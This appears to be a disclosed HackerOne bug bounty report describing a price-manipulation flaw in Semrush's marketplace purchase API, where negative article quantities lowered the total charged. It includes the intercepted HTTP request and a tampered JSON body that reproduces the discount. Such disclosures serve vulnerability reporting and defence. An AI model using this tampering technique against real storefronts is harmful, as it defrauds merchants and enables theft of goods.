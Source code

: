 # An attacker can buy marketplace articles for lower prices as it allows for negative quantity values leading to business loss

## Report Details
- **Report ID**: 771694
- **URL**: https://hackerone.com/reports/771694
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-01-10T15:18:20.869Z
- **Disclosed**: 2020-04-02T09:35:11.080Z

## Reporter
- **Username**: yashrs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: semrush

## Vulnerability Information
Hi there,

When we
**Summary:** 
When someone goes to https://www.semrush.com/marketplace/offers/ and orders for articles, an attacker can pay for less than intended due to  negative quantities being allowed. 

## Steps To Reproduce:
- Go to https://www.semrush.com/marketplace/offers/
- Click on 500 Words($40) Order Now button.
- Select any two articles.
- Intercept the request:

```
POST /marketplace/api/purchases/bulk HTTP/1.1
Host: www.semrush.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.semrush.com/marketplace/offers/
Content-type: application/json
Origin: https://www.semrush.com
Content-Length: 45
DNT: 1
Connection: close
Cookie: COOKIES

{"items":{"article_500":1,"article_1000":1}}
```

- The actual price should be $110 for two articles.

Change the JSON body to :

```
{"items":{"article_500":4,"article_1000":-2}}
```

- The cost will become $20 for two articles:
4 * $40- 2 * $70= $160 - $140 = $20

████

I even tried with my Virtual Card. Here is the failed payment. This is the proof that it actually charges the lowered amount:
██████████

Regards,
Yash

## Impact

An attacker can buy articles at much lower rates by exploiting this vulnerability which could cause severe business losses to Semrush

## Attachments
No attachments
